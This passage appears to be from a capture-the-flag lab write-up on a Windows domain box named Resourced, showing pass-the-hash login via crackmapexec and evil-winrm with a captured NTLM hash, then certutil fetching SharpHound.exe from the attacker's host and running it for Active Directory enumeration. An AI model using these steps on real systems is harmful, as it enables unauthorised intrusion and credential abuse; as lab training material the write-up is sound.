 ```python
└─$ crackmapexec winrm 192.168.205.175 -u users -H hash
SMB         192.168.205.175 5985   RESOURCEDC       [*] Windows 10.0 Build 17763 (name:RESOURCEDC) (domain:resourced.local)
HTTP        192.168.205.175 5985   RESOURCEDC       [*] http://192.168.205.175:5985/wsman
WINRM       192.168.205.175 5985   RESOURCEDC       [+] resourced.local\L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808 (Pwn3d!)
```

We now have valid credentials for a user that we can use via `evil-winrm`
`L.Livingstone:19a3a7550ce8c505c2d46b5e39d6f808`
# **Exploitation**

Using the credentials we found before, we can login to the user and get `local.txt`

```python
┌──(kali㉿kali)-[~/…/PGPractice/Intermediate/Windows/Resourced]
└─$ evil-winrm -i 192.168.205.175 -u L.Livingstone -H "19a3a7550ce8c505c2d46b5e39d6f808"

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> 
```

Now, I ran `SharpHound` to get a fair idea about the Active Directory in question and to see if we have any short way towards Domain-Controller.
```python
*Evil-WinRM* PS C:\Users\L.Livingstone\Desktop> certutil -f -urlcache http://192.168.45.227:8000/SharpHound.exe SharpHound.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

*Evil-WinRM* PS C:\Users\L.Livingstone\Desktop> ./SharpHound.exe
2024-07-12T09:51:21.5421327-07:00|INFORMATION|This version of SharpHound is compatible with the 5.0.0 Release of BloodHound
2024-07-12T09:51:21.6671318-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices
2024-07-12T09:51:21.6983810-07:00|INFORMATION|Initializing SharpHound at 9:51 AM on 7/12/2024
2024-07-12T09:51:21.8546366-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for resourced.local : ResourceDC.resourced.local
2024-07-12T09:51:21.9952581-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote, CertServices
2024-07-12T09:51:22.1202584-07:00|INFORMATION|Beginning LDAP search for resourced.local
2024-07-12T09:51:22.1202584-07:00|INFORMATION|Testing ldap connection to resourced.local
2024-07-12T09:51:22.1827576-07:00|INFORMATION|Beginning LDAP search for resourced.local Configuration NC
2024-07-12T09:51:52.3077604-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 33 MB RAM
2024-07-12T09:52:04.2921380-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-07-12T09:52:04.3077566-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-07-12T09:52:04.7921324-07:00|INFORMATION|Consumers finished, closing output channel
2024-07-12T09:52:04.8077590-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-07-12T09:52:04.9483840-07:00|INFORMATION|Status: 304 objects finished (+304 7.238095)/s -- Using 42 MB RAM
2024-07-12T09:52:04.9483840-07:00|INFORMATION|Enumeration finished in 00:00:42.8295430
```